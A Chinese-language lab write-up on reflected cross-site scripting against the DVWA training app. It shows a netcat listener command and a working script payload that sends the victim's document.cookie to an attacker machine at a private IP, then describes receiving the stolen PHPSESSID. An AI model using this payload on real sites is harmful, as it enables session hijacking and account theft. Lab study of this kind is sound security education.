## XSS(Cross-Site Scripting)
1. 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
2. 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 攻击流程
1. 漏洞侦测
    - DVWA Security的安全级别设置为low
    - XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
2. 攻击环境配置与Payload(有效载荷)构建
    - Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
    - `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
    - Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
3. 结果观测
    - **浏览器端：**页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
    - **攻击机终端：**切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
    - **结论：**`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
      <img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />  
## 总结


